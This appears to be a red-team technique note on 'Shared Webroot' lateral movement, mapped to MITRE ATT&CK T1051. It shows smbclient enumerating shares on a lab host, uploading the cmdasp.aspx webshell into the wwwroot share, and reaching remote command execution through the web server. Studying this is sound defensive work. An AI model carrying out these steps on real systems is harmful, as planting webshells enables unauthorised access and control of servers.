 ```yaml
---
description: Lateral Movement
---
```


# Shared Webroot

## Execution

Enumerating victim host `10.0.0.6` for any shares:

{% code title="attacker@local" %}
```csharp
smbclient -L //10.0.0.6 -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	CertEnroll      Disk      Active Directory Certificate Services share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
	temp            Disk
	tools           Disk
	transcripts     Disk
	wwwroot         Disk
```
{% endcode %}

Logging in to the `wwwroot` share:

{% code title="attacker@local" %}
```csharp
smbclient //10.0.0.6/wwwroot -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 25 16:57:52 2018
  ..                                  D        0  Sat Aug 25 16:57:52 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018
```
{% endcode %}

Uploading a webshell into the `wwwroot`:

```csharp
put /usr/share/webshells/aspx/cmdasp.aspx c.aspx

putting file /usr/share/webshells/aspx/cmdasp.aspx as \c.aspx (341.8 kb/s) (average 341.8 kb/s)
smb: \> ls
  .                                   D        0  Sat Aug 25 16:59:47 2018
  ..                                  D        0  Sat Aug 25 16:59:47 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  c.aspx                              A     1400  Sat Aug 25 16:59:47 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018

		6463487 blocks of size 4096. 3032260 blocks available
```

Same as above in a picture:

![](../../.gitbook/assets/webroot-ownage.png)

Attacker can now access the newly uploaded webshell via `http://10.0.0.6/c.aspx` and start executing commands:

![](../../.gitbook/assets/webroot-rce.png)

## Observations

See T1108: Webshells for observations:

{% page-ref page="../privilege-escalation/t1108-redundant-access.md" %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1051" %}

